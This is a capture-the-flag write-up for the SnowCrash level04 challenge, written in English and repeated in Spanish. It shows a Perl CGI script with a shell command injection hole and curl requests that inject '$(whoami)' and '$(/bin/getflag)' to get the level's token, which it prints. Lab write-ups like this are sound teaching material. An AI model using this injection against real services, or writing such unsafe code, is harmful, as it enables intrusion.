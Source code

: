 ### LEVEL04

- I find a file named `level04.pl` in /home.
    ```bash
    level04@SnowCrash:~$ cat level04.pl
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
    }
    x(param("x"));
    ```
- I check if the script is running.
    ```bash
    level04@SnowCrash:~$ nc -v localhost 4747
    Connection to localhost 4747 port [tcp/*] succeeded!
    ```
- It seems to be running.
- The script appears to echo the first parameter and display it.
    ```perl
    [...]
    print `echo $y 2>&1`;
    [...]
    ```

- I perform a curl with the parameter `HOLA`.
    ```bash
    level04@SnowCrash:~$ curl http://localhost:4747/?x='HOLA'
    HOLA
    ``` 

- I try to see if I can execute any commands.
    ```bash
    level04@SnowCrash:~$ curl http://localhost:4747/?x='$(whoami)'
    level04
    ``` 

- We see that we have command execution.
- Let's try to obtain the flag.
    ```bash
    level04@SnowCrash:~$ curl http://localhost:4747/?x='$(/bin/getflag)'
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
    ``` 

---

### LEVEL04
- Encuentro en /home/level04 un fichero level04.pl
    ```bash
    level04@SnowCrash:~$ cat level04.pl
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
    }
    x(param("x"));
    ```

- Pruebo si el script está en ejecución:
    ```bash
    level04@SnowCrash:~$ nc -v localhost 4747
    Connection to localhost 4747 port [tcp/*] succeeded!
    ```
- Parece que está en ejecución
- El script parece que hace echo sobre el primer parametro y lo muestra
    ```perl
    [...]
    print `echo $y 2>&1`;
    [...]
    ```
- Hago un curl con el parametro `HOLA`
    ```bash
    level04@SnowCrash:~$ curl http://localhost:4747/?x='HOLA'
    HOLA
    ``` 
- Pruebo a ver si puedo ejecutar algún comando
    ```bash
    level04@SnowCrash:~$ curl http://localhost:4747/?x='$(whoami)'
    level04
    ``` 

- Vemos que tenemos ejecución de comandos
- Probamos a obtener la flag
    ```bash
    level04@SnowCrash:~$ curl http://localhost:4747/?x='$(/bin/getflag)'
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
    ``` 
